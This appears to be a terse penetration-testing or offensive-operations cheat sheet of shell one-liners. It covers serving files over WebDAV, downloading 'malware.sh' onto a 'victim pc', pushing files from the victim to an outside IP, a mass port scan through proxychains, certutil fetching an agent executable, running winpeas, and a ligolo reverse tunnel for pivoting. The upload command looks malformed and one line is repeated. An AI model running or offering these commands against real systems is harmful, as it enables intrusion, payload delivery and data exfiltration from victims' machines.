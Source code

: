
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

to download on victim pc

```
wget http://184.174.34.252:8080/malware.sh
```

to push file from victim pc

```
curl -k filename.txt http://184.174.34.252:8080/
```


```
seq 1 65535 | xargs -P50 -I{} proxychains -q nc -z -v -w 1 10.4.159.63 {} 2>&1  | grep -v -iE 'refused|timed'

```

File transfer For windows from python3 server

```
certutil.exe -urlcache -split -f http://192.168.45.198:8000/agent.exe agent.exe
./winpeas.exe | tee -a winpeas.txt

.\agent.exe -connect 192.168.45.198:11601 -ignore-cert

```

after starting ligolo
```
sudo ip route add 10.10.110.0/24 dev ligolo
```


./winpeas.exe | tee -a winpeas.txt
